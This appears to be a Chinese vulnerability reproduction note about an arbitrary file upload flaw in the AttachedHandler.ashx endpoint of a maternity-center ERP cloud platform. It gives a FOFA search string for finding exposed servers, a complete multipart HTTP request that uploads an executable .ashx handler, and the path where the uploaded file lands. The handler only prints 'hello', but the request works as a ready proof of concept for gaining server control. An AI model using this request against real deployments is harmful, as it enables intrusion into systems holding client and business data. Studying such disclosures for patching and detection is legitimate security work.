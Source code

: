 # 月子会所ERP管理云平台AttachedHandler任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/hYn-RmHIzVg3kc36/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-441408.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font>
```plain
POST /Page/upload/AttachedHandler.ashx?url=/UploadBaseFolder/ERP&Type=0 HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 499
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"


<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

 ![1695626272210-db5e34de-52ef-4914-a4b9-141d8b167264.png](./img/hYn-RmHIzVg3kc36/1695626272210-db5e34de-52ef-4914-a4b9-141d8b167264-969455.png)

上传文件位置

```plain
/UploadBaseFolder/ERP/202309250717237350958.ashx
```

![1695626315758-1f89a288-7347-458a-bddf-cdb833aca48e.png](./img/hYn-RmHIzVg3kc36/1695626315758-1f89a288-7347-458a-bddf-cdb833aca48e-425656.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/so2ar5mrlgo5bw85>